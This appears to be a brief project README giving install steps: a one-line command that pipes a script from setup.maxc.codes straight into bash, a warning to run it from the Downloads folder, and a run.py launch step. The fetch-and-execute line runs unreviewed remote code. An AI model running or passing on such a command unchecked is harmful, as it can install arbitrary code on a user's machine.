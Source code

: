 # Welcome

## Instructions

## One click install
```
curl -sSL setup.maxc.codes | bash
```

IMPORTANT: ⚠️ Make sure to run this in your `Downloads` directory ⚠️

```python3 run.py```
or if that fails
```python run.py```
